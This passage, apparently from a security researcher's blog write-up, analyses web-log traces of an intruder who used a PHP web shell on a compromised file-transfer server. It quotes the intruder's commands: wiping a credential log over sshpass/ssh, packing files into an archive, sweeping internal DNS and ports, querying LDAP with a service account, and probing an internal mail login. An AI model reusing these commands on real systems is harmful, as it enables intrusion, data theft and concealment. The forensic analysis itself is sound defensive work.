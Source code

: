 1. The backdoor parameters were passed through GET method and his footprinting can be identified easily in from web log  
 2. When the hacker was sending out commands, he didn't take care of STDERR, and left a lot of command error messages in web log which the hacker's operations could be seen  

<br>
From access.log, every few days the hacker will clear all the credentials he logged  
{% highlight prolog %}
192.168.54.13 - - 17955 [Sat, 23 Jan 2016 19:04:10 +0000 | 1453575850] "GET /courier/custom_template/1000/bN3dl0Aw.php?c=./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'cp /home/seos/courier/B3dKe9sQaa0L.log /home/seos/courier/B3dKe9sQaa0L.log.2; echo > /home/seos/courier/B3dKe9sQaa0L.log' 2>/dev/stdout HTTP/1.1" 200 2559 ...
{% endhighlight %}
<br>

Packing files
{% highlight bash %}
cat tmp_list3_2 | while read line; do cp /home/filex2/1000/$line files; done 2>/dev/stdout
tar -czvf files.tar.gz files
{% endhighlight %}
<br>

Enumerating internal network architecture
{% highlight tex %}
dig a archibus.thefacebook.com
telnet archibus.facebook.com 80
curl http://archibus.thefacebook.com/spaceview_facebook/locator/room.php
dig a records.fb.com
telnet records.fb.com 80
telnet records.fb.com 443
wget -O- -q http://192.168.41.16
dig a acme.facebook.com
./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'for i in $(seq 201 1 255); do for j in $(seq 0 1 255); do echo "192.168.$i.$j:`dig +short ptr $j.$i.168.192.in-addr.arpa`"; done; done' 2>/dev/stdout
...
{% endhighlight %}
<br>

Use ShellScript to scan internal network but forgot to redirect STDERR XD
![Port Scanning](/images/news/20160421/6.jpg)
<br>

Attempt to connect internal LDAP server  
{% highlight tex %}
sh: -c: line 0: syntax error near unexpected token `('
sh: -c: line 0: `ldapsearch -v -x -H ldaps://ldap.thefacebook.com -b CN=svc-accellion,OU=Service Accounts,DC=thefacebook,DC=com -w '********' -s base (objectclass=*) 2>/dev/stdout'
{% endhighlight %}
<br>

Attempt to access internal server   
(Looked like Mail OWA could be accessed directly...)  
{% highlight text %}
--20:38:09--  https://mail.thefacebook.com/
Resolving mail.thefacebook.com... 192.168.52.37
Connecting to mail.thefacebook.com|192.168.52.37|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://mail.thefacebook.com/owa/ [following]
--20:38:10--  https://mail.thefacebook.com/owa/
Reusing existing connection to mail.thefacebook.com:443.
HTTP request sent, awaiting response... 302 Moved Temporarily
Location: https://mail.thefacebook.com/owa/auth/logon.aspx?url=https://mail.thefacebook.com/owa/&reason=0 [following]
--20:38:10--  https://mail.thefacebook.com/owa/auth/logon.aspx?url=https://mail.thefacebook.com/owa/&reason=0